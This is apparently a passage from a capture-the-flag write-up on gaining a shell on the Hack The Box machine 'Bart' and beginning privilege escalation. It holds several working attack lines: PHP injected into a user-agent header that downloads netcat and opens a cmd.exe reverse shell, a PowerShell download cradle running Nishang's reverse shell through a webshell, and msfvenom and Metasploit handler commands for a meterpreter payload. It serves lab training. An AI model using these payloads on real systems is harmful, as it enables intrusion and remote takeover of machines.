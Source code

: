 ### Meth 1 : Upload NC

We upload & execute a 64-bit netcat binary onto the machine (important for later) so we can get an interactive shell.

I injected the following code into the user agent field. Make sure you remember to escape the \.
````
<?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.171:7777/nc.exe','nc.exe')\""); ?>

<?php exec("nc.exe 10.10.15.171 6667 -e cmd.exe"); ?>
````


### Meth 2 : Nishang

Grab Invoke-PowerShellTcp.ps1 from Nishang, and add a line to the end:

````
# cp /opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1 .
# tail -1 Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.48 -Port 4444
````

Give webshell powershell to get interactive shell and run it, and get shell:
````
>>> cmd = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/Invoke-PowerShellTcp.ps1')"
>>> r = requests.get('http://internal-01.bart.htb/log/0xdf.php?cmd={}'.format(cmd), proxies=proxies)
````
````
# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.15.48] from (UNKNOWN) [10.10.10.81] 49673
Windows PowerShell running as user BART$ on BART
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\internal-01\log>whoami
nt authority\iusr
````


## Escalation-Guide/

### Metasploit

Generate reverse_tcp
````
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.171 LPORT=6969 -f exe > 6969.exe
````
Serve it with SMB
````
# impacket-smbserver kk kk
````
````
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf exploit(multi/handler) > set LPORT 6969
LPORT => 6969
msf exploit(multi/handler) > set ExitonSession False
ExitonSession => false
msf exploit(multi/handler) > run -j
[*] Exploit running as background job 2.

````
